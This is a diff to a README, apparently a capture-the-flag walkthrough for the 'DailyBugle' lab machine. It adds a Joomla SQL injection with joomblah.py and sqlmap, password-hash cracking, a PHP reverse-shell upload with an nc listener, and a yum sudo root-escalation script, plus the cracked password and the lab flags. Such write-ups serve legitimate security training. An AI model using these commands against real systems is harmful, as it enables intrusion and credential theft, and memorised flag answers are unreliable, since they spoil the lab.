

Update DailyBugle

diff --git a/CTF/DailyBugle/README.md b/CTF/DailyBugle/README.md
@@ -6,6 +6,7 @@
 
 * Nmap
 * Gobuster
+* Joomblah.py
 
 ![IP](./images/IP.png)
 
@@ -139,13 +140,142 @@ Hack into the machine and obtain the root user's credentials.
 
 	![task1-exploit](./images/task1-exploit.png)
 
-* Download `joomblah.py`
+* Method 1 - Use `joomblah.py`
+
+	* Download `joomblah.py`
+		
+		```
+		wget https://raw.githubusercontent.com/stefanlucas/Exploit-Joomla/master/joomblah.py
+		```
+	
+		![task1-joomblah](./images/task1-joomblah.png)
+	
+	* Use `joomblah.py` to enumerate
+	
+		```
+		python joomblah.py http://10.10.27.221
+		```
+	
+		![task1-hash](./images/task1-hash.png)
+
+* Method 2 - Use SQLMap
+
+	* Run script command from exploit file to get DBMS info
+	
+		```
+		sqlmap -u "http://$IP/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
+		```
+
+		![task1-dbms](./images/task1-dbms.png)
+
+	* Run script again to get info table
+	
+		```
+		sqlmap -u "http://$IP/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] --tables -D joomla
+		```
+
+		![task1-users](./images/task1-users.png)
+
+	* Run script again to get hash
+	
+		```
+		sqlmap -u "http://$IP/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomla -T '#__users' --dump
+		```
+
+	![task1-table](./images/task1-table.png)
+
+* Save the hash to `hash-jonah.txt` and Use `JohnTheRipper` to crack password
 	
 	```
-	wget https://raw.githubusercontent.com/XiphosResearch/exploits/master/Joomblah/joomblah.py
+	john hash-jonah.txt -w=/usr/share/wordlists/rockyou.txt
 	```
 
-	![task1-joomblah](./images/task1-joomblah.png)
+	![task1-password](./images/task1-password.png)
+
+* Login to `http://10.10.27.221/administrator/`, Use template to upload our payload PHP reverser shell
+
+	![task1-template](./images/task1-template.png)
+
+	![task1-protostar](./images/task1-protostar.png)
+
+	![task1-new](./images/task1-new.png)
+
+	![task1-create](./images/task1-create.png)
+
+	![task1-save](./images/task1-save.png)
+
+* Setup listener on our attacker machine
+
+	```
+	nc -nvlp 8888
+	```
+
+	![task1-listener](./images/task1-listener.png)
+
+* Get the shell with access `http://10.10.36.44/templates/protostar/revshell.php`
+
+	![task1-shell](./images/task1-shell.png)
+
+* Create http server on attacker machine to download `linpeas.sh` on target machine
+
+	![task1-http](./images/task1-http.png)
+
+	![task1-download](./images/task1-download.png)
+
+* Run `linpeas.sh`
+
+	```
+	chmod +x linpeas.sh
+	./linpeas.sh
+	```
+
+	![task1-config](./images/task1-config.png)
+
+* Login to `jjameson` and get the flag
+
+	```
+	su jjameson
+	```
+
+	![task1-su](./images/task1-su.png)
+
+* Check `sudo -l`
+
+	![task1-sudo](./images/task1-sudo.png)
+
+* Elevated privileges with sudo yum, copy and paste script from https://gtfobins.github.io/gtfobins/yum/ to shell target
+
+	```
+	TF=$(mktemp -d)
+	cat >$TF/x<<EOF
+	[main]
+	plugins=1
+	pluginpath=$TF
+	pluginconfpath=$TF
+	EOF
+
+	cat >$TF/y.conf<<EOF
+	[main]
+	enabled=1
+	EOF
+
+	cat >$TF/y.py<<EOF
+	import os
+	import yum
+	from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
+	requires_api_version='2.1'
+	def init_hook(conduit):
+	  os.execl('/bin/sh','/bin/sh')
+	EOF
+
+	sudo yum -c $TF/x --enableplugin=y
+	```
+
+	![task1-yum](./images/task1-yum.png)
+
+* Get the root file
+
+	![task1-root](./images/task1-root.png)
 
 ### Answer the questions below
 
@@ -159,9 +289,21 @@ Hack into the machine and obtain the root user's credentials.
 
 * What is Jonah's cracked password?
 
+	`spiderman123`
+
+	![task1-password](./images/task1-password.png)
+
 * What is the user flag?
 
+	`27a260fe3cba712cfdedb1c86d80442e`
+
+	![task1-su](./images/task1-su.png)
+
 * What is the root flag?
+
+	`eec3d53292b1821868266858d7fa6f79`
+
+	![task1-root](./images/task1-root.png)
 
 ## Task 3 - Credits
 
